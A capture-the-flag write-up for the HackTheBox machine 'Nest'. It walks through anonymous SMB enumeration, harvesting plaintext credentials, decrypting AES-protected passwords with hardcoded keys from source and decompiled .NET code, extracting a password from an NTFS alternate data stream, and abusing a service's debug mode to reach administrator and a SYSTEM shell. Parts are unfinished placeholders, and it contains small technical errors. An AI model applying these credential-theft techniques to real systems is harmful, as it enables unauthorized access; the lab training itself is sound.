

# HTB - Nest

Like always, I started my enumeration with an nmap scan of `10.10.10.177`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all TCP ports, `-sC` runs a TCP connect scan, `-sV` does a service scan, `-oA <name>` saves all types of output \(`.nmap`,`.gnmap`, and `.xml`\) with filenames of `<name>`.

At first my scan wouldn't go through until I added the `-Pn` flag to stop nmap from sending ICMP probes. After that it proceeded normally. The scan only showed one port open during my initial scan so I ran it again to verify, and it came back with the same results.

```text
zweilos@kalimaa:~/htb/nest$ nmap -p- -A -oA nest.full 10.10.10.178 -Pn

Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-30 15:47 EDT
Nmap scan report for 10.10.10.178
Host is up (0.14s latency).
Not shown: 65534 filtered ports
PORT    STATE SERVICE       VERSION
445/tcp open  microsoft-ds?

Host script results:
|_clock-skew: 4m00s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-30T19:56:10
|_  start_date: 2020-05-30T17:04:39

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 330.76 seconds
```

## Initial Foothold

Well, nothing else to do but try to connect to SMB without any credentials:

```text
zweilos@kalimaa:~/htb/nest$ smbclient -U "" -L \\10.10.10.178\
> 
Enter WORKGROUP\'s password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```

Luckily it worked, and I got back a listing of the shares on this machine. `Data`, `Secure$`, and `Users` all sound interesting as they are not default shares. I first tried connecting to `Secure$` but was denied. Next I tried to connect to `Data`.

```text
zweilos@kalimaa:~/htb/nest$ smbclient -U "" \\\\10.10.10.178\\Data
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Aug  7 18:53:46 2019
  ..                                  D        0  Wed Aug  7 18:53:46 2019
  IT                                  D        0  Wed Aug  7 18:58:07 2019
  Production                          D        0  Mon Aug  5 17:53:38 2019
  Reports                             D        0  Mon Aug  5 17:53:44 2019
  Shared                              D        0  Wed Aug  7 15:07:51 2019

                10485247 blocks of size 4096. 6543375 blocks available
smb: \>
```

After searching around in the various folders, I found one file that had some interesting information in the `Shared\Templates\HR\` folder.

```text
zweilos@kalimaa:~/htb/nest$ cat 'Shared\Templates\HR\Welcome Email.txt' 

We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location: 
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the 
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019


Thank you
HR
```

## Road to User

The file `"Welcome Email.txt"` contained a set of credentials for the user `TempUser`, the location of the user's folder, and the hostname of the machine: `HTB-NEST`. Using this information I once again used `smbclient` and logged into the `Users` share.

```text
zweilos@kalimaa:~/htb/nest$ smbclient -W HTB-NEST -U TempUser \\\\10.10.10.178\\Users
Enter HTB-NEST\TempUser's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jan 25 18:04:21 2020
  ..                                  D        0  Sat Jan 25 18:04:21 2020
  Administrator                       D        0  Fri Aug  9 11:08:23 2019
  C.Smith                             D        0  Sun Jan 26 02:21:44 2020
  L.Frost                             D        0  Thu Aug  8 13:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 13:02:50 2019
  TempUser                            D        0  Wed Aug  7 18:55:56 2019

                10485247 blocks of size 4096. 6543375 blocks available
```

Hmm...a list of users with accounts on this machine?

I was now able to access the user folder for `TempUser`. However, it only contained a blank text file. I wasn't able to access anything in the other user's folders.

```text
smb: \> cd tempuser
smb: \tempuser\> ls
  .                                   D        0  Wed Aug  7 18:55:56 2019
  ..                                  D        0  Wed Aug  7 18:55:56 2019
  New Text Document.txt               A        0  Wed Aug  7 18:55:56 2019

                10485247 blocks of size 4096. 6545793 blocks available
```

Since that appeared to be a dead-end, I tried going back and logging into the other network shares. `TempUser` was able to access some folders in the `Data` share that I wasn't able to get to before. After searching around for awhile, I came across a couple files with interesting information. In the `\IT\Configs\NotepadPlusPlus\` folder there was a `config.xml` file.

```text
smb: \IT\Configs\NotepadPlusPlus\> ls
  .                                   D        0  Wed Aug  7 15:31:37 2019
  ..                                  D        0  Wed Aug  7 15:31:37 2019
  config.xml                          A     6451  Wed Aug  7 19:01:25 2019
  shortcuts.xml                       A     2108  Wed Aug  7 15:30:27 2019

                10485247 blocks of size 4096. 6545921 blocks available
```

The `shortcuts.xml` file did not have anything useful in it, but `config.xml` did.

```markup
<?xml version="1.0" encoding="Windows-1252" ?>
<NotepadPlus>

    ...snipped for brevity...

    <!-- The History of opened files list -->
    <FindHistory nbMaxFindHistoryPath="10" nbMaxFindHistoryFilter="10" nbMaxFindHistoryFind="10" nbMaxFindHistoryReplace="10" matchWord="no" matchCase="no" wrap="yes" directionDown="yes" fifRecuisive="yes" fifInHiddenFolder="no" dlgAlwaysVisible="no" fifFilterFollowsDoc="no" fifFolderFollowsDoc="no" searchMode="0" transparencyMode="0" transparency="150">
        <Find name="text" />
        <Find name="txt" />
        <Find name="itx" />
        <Find name="iTe" />
        <Find name="IEND" />
        <Find name="redeem" />
        <Find name="activa" />
        <Find name="activate" />
        <Find name="redeem on" />
        <Find name="192" />
        <Replace name="C_addEvent" />
    </FindHistory>
    <History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
</NotepadPlus>
```

This config file contained a history of the text searches and files that had been opened with Notepad++ \(My favorite Windows text editor as well, by the way\). One item in particular stood out: `\\HTB-NEST\Secure$\IT\Carl\Temp.txt`. I decided to keep looking around and come back to that later since I couldn't access anything in the the `\Secure$\IT\` folder as this user.

After searching around a bit more, I found an XML file in `\IT\Configs\RU Scanner\` folder that had something interesting.

```text
smb: \IT\Configs\RU Scanner\> ls
  .                                   D        0  Wed Aug  7 16:01:13 2019
  ..                                  D        0  Wed Aug  7 16:01:13 2019
  RU_config.xml                       A      270  Thu Aug  8 15:49:37 2019

                10485247 blocks of size 4096. 6545777 blocks available
```

Inside this file was some useful information.

```markup
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```

I now had credentials for another user `c.smith`for what appeared to be LDAP \(port 389\), but the password was obfuscated. It seemed to be Base64, so I decoded it and got this:

```text
zweilos@kalimaa:~/htb/nest$ echo "fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=" | base64 -d
}13��=X�J�BA�X*�Wc�f���?βc
```

This did not look to be simply base64 encoded. After trying to decode/decrypt the password for a while, I gave up and decided to keep looking. That NotepadPlusPlus config file from earlier showed a file being opened on the `/Secure$/IT` share so I decided to see if I could access the file directly, since I wasnt't able to list files in that directory when I tried earlier.

```text
smb: \> get \IT\Carl\Temp.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \IT\Carl\Temp.txt
```

Hmm...It didn't tell me that I didn't have access to the file, but that file doesn't seem to exist anymore. Can I get to that folder, then?

```text
smb: \> cd \IT\Carl
smb: \IT\Carl\> ls
  .                                   D        0  Wed Aug  7 15:42:14 2019
  ..                                  D        0  Wed Aug  7 15:42:14 2019
  Docs                                D        0  Wed Aug  7 15:44:00 2019
  Reports                             D        0  Tue Aug  6 09:45:40 2019
  VB Projects                         D        0  Tue Aug  6 10:41:55 2019

                10485247 blocks of size 4096. 6545905 blocks available
```

Yes!

_I figured that the name of this box must be related to nesting dolls or something like that. The whole time I have had to keep going back to places I had already been to find more information that helped me get a bit further in another place._

After searching around in the `/IT/Carl/` folder for awhile, I found a Visual Basic coding project that he had apparently been working on. `RU Scanner` was also the name of that config file I found earlier with the encrypted credentials for the `c.smith` user, so I knew I had to be on the right track.

```text
smb: \IT\Carl\VB Projects\WIP\RU\> ls
  .                                   D        0  Fri Aug  9 11:36:45 2019
  ..                                  D        0  Fri Aug  9 11:36:45 2019
  RUScanner                           D        0  Wed Aug  7 18:05:54 2019
  RUScanner.sln                       A      871  Tue Aug  6 10:45:36 2019

                10485247 blocks of size 4096. 6545777 blocks available
```

I copied the whole `VB Projects` folder to my computer and opened the solution file in Visual Studio Code.

> \*Side note: In order to copy a whole folder in SMB you need to do a little set up. From [https://indradjy.wordpress.com/2010/04/14/getting-whole-folder-using-smbclient/](https://indradjy.wordpress.com/2010/04/14/getting-whole-folder-using-smbclient/):
>
> Connect using: `smbclient -U <user> \\\\<ip>\\<folder> <password>`  
> smb: `tarmode` smb: `recurse` smb: `prompt` smb: `mget <folder_to_copy>\`
>
> `mget` will now allow the whole folder and subfolders to be copied recursively to your local `pwd` \(wherever you were before you logged into smbclient\).


In the `Main()` function I could see that the program was supposed to read the `RU_config.xml` file that we found earlier with `c.smith`'s password in it, then decrypt it using the `Utils.DecryptString()` function.

```text
Sub Main()
        Dim Config As ConfigFile = ConfigFile.LoadFromFile("/home/zweilos/htb/nest/RU_Config.xml")
        Dim test As New SsoIntegration With {.Username = Config.Username, .Password = Utils.DecryptString(Config.Password)}
    End Sub
```

I tried building and running the code, but for some reason I wasn't able to get it to run properly. I decided to cut straight to the decryption function and run it directly to try to debug it. Skimming further through the code, I found what I was looking for in the `Utils.vb` source code file. The `Decrypt()` function takes in our encrypted password and a bunch of key and salt values, all of which were hardcoded in the `Utils.DecryptString()` function.

```text
Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function
```

```text
Public Shared Function Decrypt(ByVal cipherText As String, _
                               ByVal passPhrase As String, _
                               ByVal saltValue As String, _
                               ByVal passwordIterations As Integer, _
                               ByVal initVector As String, _
                               ByVal keySize As Integer) _
                        As String

        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)

        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)

        Dim cipherTextBytes As Byte()
        cipherTextBytes = Convert.FromBase64String(cipherText)

        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)

        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))

        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC

        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)

        Dim memoryStream As IO.MemoryStream
        memoryStream = New IO.MemoryStream(cipherTextBytes)

        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)

        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)

        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)

        memoryStream.Close()
        cryptoStream.Close()

        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)

        Return plainText
    End Function
```

To quickly run any kind of .NET code on the go without having to install Visual Studio and the proper dependencies, I highly recommend the website [`https://dotnetfiddle.net/`](https://dotnetfiddle.net/).

I selected `VB.NET` as my language, then copied over the relevant code into the site, and with a little bit of tweaking was able to hit the `> Run` button up top to get the output of my code. You can see below how I modified the `Main()` function to print the decrypted password to the console using the hardcoded values from `Utils.DecryptString()`.

```text
Public Function Main()
        Console.Writeline(Decrypt("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=", "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256))
        return 0
    End Function
```


As you can see, my shortened program worked and gave me the password for `c.smith`, which is `xRxRxPANCAK3SxRxRx`!

## Path to Power \(Gaining Administrator Access\)

Now that I had credentials as another user, time to see if I could find that `user.txt`. It was in the `Users` share, right in the `c.smith` folder.

```text
zweilos@kalimaa:~/htb/nest$ smbclient -W HTB-NEST -U c.smith \\\\10.10.10.178\\Users xRxRxPANCAK3SxRxRx
Try "help" to get a list of possible commands.
smb: \> cd c.smith
smb: \c.smith\> ls
  .                                   D        0  Sun Jan 26 02:21:44 2020
  ..                                  D        0  Sun Jan 26 02:21:44 2020
  HQK Reporting                       D        0  Thu Aug  8 19:06:17 2019
  user.txt                            A       32  Thu Aug  8 19:05:24 2019

                10485247 blocks of size 4096. 6545935 blocks available
```

```text
zweilos@kalimaa:~/htb/nest$ cat 'c.smith\user.txt'
81960e14de90f242c05d946fc1f94cbe
```

```text
smb: \c.smith\> cd "HQK Reporting"
smb: \c.smith\HQK Reporting\> ls
  .                                   D        0  Thu Aug  8 19:06:17 2019
  ..                                  D        0  Thu Aug  8 19:06:17 2019
  AD Integration Module               D        0  Fri Aug  9 08:18:42 2019
  Debug Mode Password.txt             A        0  Thu Aug  8 19:08:17 2019
  HQK_Config_Backup.xml               A      249  Thu Aug  8 19:09:05 2019

                10485247 blocks of size 4096. 6545935 blocks available
smb: \c.smith\HQK Reporting\> cd "AD Integration Module"
smb: \c.smith\HQK Reporting\AD Integration Module\> ls
  .                                   D        0  Fri Aug  9 08:18:42 2019
  ..                                  D        0  Fri Aug  9 08:18:42 2019
  HqkLdap.exe                         A    17408  Wed Aug  7 19:41:16 2019

                10485247 blocks of size 4096. 6545807 blocks available
```

```text
...found this xml file...
```

```markup
zweilos@kalimaa:~/htb/nest$ cat HQK\ Reporting\\HQK_Config_Backup.xml

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```

The `"Debug Mode Password.txt"` appeared to be empty, but from my past experiences with doing CTFs in Windows environments I have learned that if a filename says it has a password or flag in it, it probably does. You might just have to try a little harder to get it. In this case, the user tried to hide the password from common snooping by inserting it into an NTFS alternate data stream \(ADS\). You can read more about ADS and how to detect them at [https://www.sans.org/blog/alternate-data-streams-overview/](https://www.sans.org/blog/alternate-data-streams-overview/). In order to locate any alternate data streams in this file over SMB, you need to use the `allinfo` command, then `Get` the file with the appropriate stream name appended to it. You can read more about this at [https://superuser.com/questions/1520250/read-alternate-data-streams-over-smb-with-linux](https://www.sans.org/blog/alternate-data-streams-overview/).

```text
smb: \C.Smith\HQK Reporting\> allinfo
allinfo <file>
smb: \C.Smith\HQK Reporting\> allinfo "Debug Mode Password.txt" 
altname: DEBUGM~1.TXT
create_time:    Thu Aug  8 07:06:12 PM 2019 EDT
access_time:    Thu Aug  8 07:06:12 PM 2019 EDT
write_time:     Thu Aug  8 07:08:17 PM 2019 EDT
change_time:    Thu Aug  8 07:08:17 PM 2019 EDT
attributes: A (20)
stream: [::$DATA], 0 bytes
stream: [:Password:$DATA], 15 bytes
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password:$DATA"
smb: exit

zweilos@kalimaa:~/htb/nest$ cat 'Debug Mode Password.txt:Password:$DATA' 
WBQ201953D8w
```

```text
...more about ADS and getting the password...


...more about telnet-ing into the box...
```

`HQK_Config_Backup.xml` mentioned port 4386, three things to do with unknown ports...nc, telnet, and ssh. `nc` simply reported back the banner `HQK Reporting Service V1.2` and nothing else. `Telnet` however gave me an interactive prompt.

```text
zweilos@kalimaa:~/htb/nest$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

>whoami

Unrecognised command
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  COMPARISONS
[1]   Invoices (Ordered By Customer)
[2]   Products Sold (Ordered By Customer)
[3]   Products Sold In Last 30 Days

Current Directory: ALL QUERIES
>runquery 1

Invalid database configuration found. Please contact your system administrator
```

```text
...talk about how runquery and invalid database... next tried that debug command and the password I found...
```

```text
>debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available
>help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>
SERVICE
SESSION
SHOWQUERY <Query_ID>

>service

--- HQK REPORTING SERVER INFO ---

Version: 1.2.0.0
Server Hostname: HTB-NEST
Server Process: "C:\Program Files\HQK\HqkSvc.exe"
Server Running As: Service_HQK
Initial Query Directory: C:\Program Files\HQK\ALL QUERIES

>session

--- Session Information ---

Session ID: f5d4ced8-5de2-4fb4-80f7-84cebfea6538
Debug: True
Started At: 6/14/2020 9:53:05 AM
Server Endpoint: 10.10.10.178:4386
Client Endpoint: 10.10.14.253:51630
Current Query Directory: C:\Program Files\HQK\ALL QUERIES

>setdir ..

Current directory set to HQK
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[DIR]  ALL QUERIES
[DIR]  LDAP
[DIR]  Logs
[1]   HqkSvc.exe
[2]   HqkSvc.InstallState
[3]   HQK_Config.xml

Current Directory: HQK
>showquery 1

File over size limit. Are you sure this is a HQK query file?
>showquery 3

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <DebugPassword>WBQ201953D8w</DebugPassword>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>

>setdir ldap

Current directory set to ldap
>list

Use the query ID numbers below with the RUNQUERY command and the directory names with the SETDIR command

 QUERY FILES IN CURRENT DIRECTORY

[1]   HqkLdap.exe
[2]   Ldap.conf

Current Directory: ldap
>showquery 2  

Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

```text
...now have admin password, but decrypt method from VB didn't work.  below error.
```


```text
Run-time exception (line -1): Padding is invalid and cannot be removed.

Stack Trace:

[System.Security.Cryptography.CryptographicException: Padding is invalid and cannot be removed.]
   at System.Security.Cryptography.CapiSymmetricAlgorithm.DepadBlock(Byte[] block, Int32 offset, Int32 count)
   at System.Security.Cryptography.CapiSymmetricAlgorithm.TransformFinalBlock(Byte[] inputBuffer, Int32 inputOffset, Int32 inputCount)
   at System.Security.Cryptography.CryptoStream.Read(Byte[] buffer, Int32 offset, Int32 count)
   at Utils.Decrypt(String cipherText, String passPhrase, String saltValue, Int32 passwordIterations, String initVector, Int32 keySize)
   at Utils.Main()
```

```text
...padding is invalid...seems like this password is in the wrong format for this decrypt algorithm.  Maybe that HqkLdap.exe I found in the `\c.smith\HQK Reporting\` earlier would prove to be more useful?...


...more about finding the executable file earlier and working to decrypt admin password...
```

I used `ILSpy` to dissassemble the executable file into readable .NET code \(in this case ILSpy told me the language was C\#\). This amazingly useful program can be found at [https://github.com/icsharpcode/AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy).

I found the relevant decryption methods under the `HqkLdap.CR` namespace. This program was actually structured quite similarly to the VB project `RU Scanner` from before, so it didn't take much effort to find the code I needed, even with the method names stripped and replaced with two letters.



...fixing the C\# code...

```text
// HqkLdap.CR
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

public class CR
{
    public void Main(){
        Console.WriteLine(DS("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4="));
    }

    private const string K = "667912";

    private const string I = "1L1SA61493DRV53Z";

    private const string SA = "1313Rf99";

    public static string DS(string EncryptedString)
    {
        if (string.IsNullOrEmpty(EncryptedString))
        {
            return string.Empty;
        }
        return RD("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=", "667912", "1313Rf99", 3, "1L1SA61493DRV53Z", 256);
    }

    private static string RD(string cipherText, string passPhrase, string saltValue, int passwordIterations, string initVector, int keySize)
    {
        byte[] bytes = Encoding.ASCII.GetBytes(initVector);
        byte[] bytes2 = Encoding.ASCII.GetBytes(saltValue);
        byte[] array = Convert.FromBase64String(cipherText);
        Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(passPhrase, bytes2, passwordIterations);
        checked
        {
            byte[] bytes3 = rfc2898DeriveBytes.GetBytes((int)Math.Round((double)keySize / 8.0));
            AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
            aesCryptoServiceProvider.Mode = CipherMode.CBC;
            ICryptoTransform transform = aesCryptoServiceProvider.CreateDecryptor(bytes3, bytes);
            MemoryStream memoryStream = new MemoryStream(array);
            CryptoStream cryptoStream = new CryptoStream(memoryStream, transform, CryptoStreamMode.Read);
            byte[] array2 = new byte[array.Length + 1];
            int count = cryptoStream.Read(array2, 0, array2.Length);
            memoryStream.Close();
            cryptoStream.Close();
            return Encoding.ASCII.GetString(array2, 0, count);
        }
    }
}
```

```text
...and then running it...
```


RU Scanner --&gt; XtH4nkS4Pl4y1nGX

```text
zweilos@kalimaa:~/htb/nest$ cat 'Administrator\Desktop\root.txt' 
2f1fbb443419c664fff8b0f0424a3da1
```

I also went back to see if I could actually get a shell on the box to try to elevate to System privileges since this entire box had been completed in locked down quasi-shells the whole time...

```text
meterpreter > shell
Process 1732 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

Thanks to [`Vbscrub`](https://www.hackthebox.eu/home/users/profile/158833) for creating such a unique and interesting challenge. I certainly learned a few useful new tricks.

